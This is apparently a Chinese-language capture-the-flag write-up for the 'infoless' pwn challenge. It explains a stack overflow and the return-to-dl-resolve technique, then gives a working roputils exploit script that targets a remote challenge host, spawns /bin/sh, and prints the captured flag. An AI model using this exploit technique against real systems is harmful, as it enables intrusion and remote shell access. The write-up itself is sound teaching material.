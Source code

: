 ### 0x01 pwn200--infoless.infoless

这个程序非常干净。plt表里就一个read函数，漏洞也非常明显，就一个栈溢出。

```c
ssize_t sub_80484CB()
{
  char buf; // [sp+6h] [bp-12h]@1

  return read(0, &buf, 0x3Cu);
}
```

可以说非常暴力了。一开始陷入了僵局，因为没有wirte函数来泄露地址，后来得知了Return-to-dl-resolve这个漏洞利用方法可以只用read拿shell。

<br/>

详细原理可以看这个文章[ROP之return to dl-resolve](http://rk700.github.io/2015/08/09/return-to-dl-resolve/)。讲得非常详细。

<br/>

简单的说就是利用函数在动态链接时需要读取符号表的信息来获取系统函数的原理，提供伪造的符号表索引并伪造符号表达到任意调用系统函数的目标，确实是非常暴力的手段了。

<br/>

对此网上已经有大牛写好了集成了工具并写好了漏洞利用脚本，用的时候改改就成了。工具的名字叫[roputils](https://github.com/inaz2/roputils).

改好的脚本：

```python
from roputils import *

fpath = './infoless.infoless'
offset = 0x12

rop = ROP(fpath)
addr_bss = rop.section('.bss')

buf = rop.retfill(offset)
buf += rop.call('read', 0, addr_bss, 100)
buf += rop.dl_resolve_call(addr_bss+20, addr_bss)

p = Proc(host='123.206.81.66', port=8888)
p.write(p32(len(buf)) + buf)
print "[+] read: %r" % p.read(len(buf))

buf = rop.string('/bin/sh')
buf += rop.fill(20, buf)
buf += rop.dl_resolve_data(addr_bss+20, 'system')
buf += rop.fill(100, buf)

p.write(buf)
p.interact(0)
```

结果是

```bash
root@kali:~/roputils# python pp.py
[+] read: ''
got a shell!
ls
bin
flag
infoless
lib
cat flag
hbctf{8a6d0b8bff7581ac}
```
